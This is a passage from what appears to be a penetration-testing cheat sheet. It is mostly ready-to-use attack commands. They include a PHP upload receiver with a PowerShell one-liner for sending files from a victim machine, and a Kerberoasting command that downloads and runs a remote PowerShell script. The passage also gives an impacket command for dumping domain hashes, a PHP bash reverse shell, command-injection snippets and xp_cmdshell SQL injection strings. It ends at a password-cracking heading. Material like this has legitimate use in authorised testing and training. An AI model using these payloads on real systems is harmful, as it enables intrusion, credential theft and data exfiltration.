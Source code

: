 ```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

2. Create upload directory and set appropriate permissions to allow upload.

```bash
sudo mkdir /var/www/uploads && sudo chown www-data:www-data /var/www/uploads
```

3. Upload file from victim machine to attacking machine using PowerShell:

```ps
powershell.exe -exec unrestricted -noprofile -Command "(New-Object System.Net.WebClient).UploadFile('http://10.10.10.10/upload.php', 'file-to-upload.txt')"
```

## Kerberoasting

-   `GetUserSPNs.py -request -dc-ip <DC_IP> <domain\user>`

-   `powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat`

-   `impacket-secretsdump -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER> -outputfile filename.hashes`

## LFI / RFI

PHP Reverse Shell:

<?phpexec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10/1234 0>&1'");

Command Injection:
<?php echo shell_exec(whoami);?>

-   For more info on LFI & RFI please refer to the LFI / RFI section at the top of the page ^

## MSSQL / SQLi

-   EXEC master..xp_cmdshell 'whoami';
-   meh' exec master..xp_cmdshell 'whoami' --
-   https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md
-   http://pentestmonkey.net/category/cheat-sheet/sql-injection

## Password Cracking

Hashcat
